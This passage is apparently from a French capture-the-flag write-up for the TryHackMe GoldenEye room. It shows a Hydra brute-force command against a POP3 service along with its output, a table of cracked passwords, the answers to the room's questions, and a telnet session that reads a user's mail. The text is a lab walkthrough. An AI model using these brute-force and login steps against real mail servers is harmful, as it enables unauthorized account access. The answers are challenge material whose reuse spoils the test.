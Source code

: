 idem pour natalya

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ hydra -l natalya  -P /usr/share/wordlists/fasttrack.txt  pop3://$IP -s 55007 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-05 04:56:27
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.43.8:55007/
[55007][pop3] host: 10.10.43.8   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-05 04:56:57

```

### Utilisateurs pop3 trouvés jusqu'à présent

| Utilisateur | Password |
| ----------- | -------- |
| boris       | secret1! |
| natalya     | bird     |

### Réponses aux questions

<table><thead><tr><th width="538">Questions</th><th>Réponses</th></tr></thead><tbody><tr><td>If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?</td><td>secret1!</td></tr><tr><td>Inspect port 55007, what services is configured to use this port?</td><td>telnet</td></tr><tr><td>What can you find on this service?</td><td>emails</td></tr><tr><td>What user can break Boris' codes?</td><td>natalya</td></tr></tbody></table>

### Emails

#### Boris

```sh
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.43.8...
Connected to 10.10.43.8.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id D9E47454B1
```